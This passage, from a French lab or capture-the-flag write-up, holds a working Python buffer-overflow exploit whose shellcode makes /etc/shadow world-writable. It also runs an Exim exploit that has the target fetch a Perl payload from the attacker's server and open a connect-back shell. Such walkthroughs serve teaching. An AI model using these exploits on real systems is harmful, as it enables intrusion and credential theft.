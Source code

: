 ```python
import socket

shellcode =  "\x31\xc0\x50\xb0\x0f\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68"
shellcode += "\x2f\x2f\x65\x74\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80"
addr = "\x8F\x89\x04\x08"
buff = "\x90" * (124 - len(shellcode))
buff += shellcode
buff += addr

s = socket.socket()
s.connect(('192.168.1.95', 7777))
s.recv(20)

s.send(buff)
s.recv(20)
s.close()
```

Qu'est-ce que ça donne ?  

```plain
$ ls -l /etc/shadow
-rw-r----- 1 root shadow 719 2014-04-13 12:35 /etc/shadow
$ python sploit.py 
$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 719 2014-04-13 12:35 /etc/shadow
```

Pwned again.  

Exim4, l'autre pays du pwnage
-----------------------------

Quels étaient les autres moyens d'arriver à ses fins ? Je n'ai trouvé rien d'intéressant via le Samba, en revanche [un exploit de KingCope pour Exim](http://www.exploit-db.com/exploits/15725/) permet d'obtenir un shell :  

```
> perl kingcope_exim.pl 192.168.1.95 http://192.168.1.3:8000/dc.pl 192.168.1.3 8888 
220 localhost.localdomain ESMTP Exim 4.50 Sun, 13 Apr 2014 17:58:03 +0200
250-localhost.localdomain Hello abcde.com [192.168.1.3]
250-SIZE 52428800
Set size to 52428800 !
250-PIPELINING
250 HELP
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
Sending large buffer, please wait...
552 Message size exceeds maximum permitted
250 OK
```

On aura préalablement mis en place un *SimpleHTTPServer* ainsi qu'un *ncat* :  
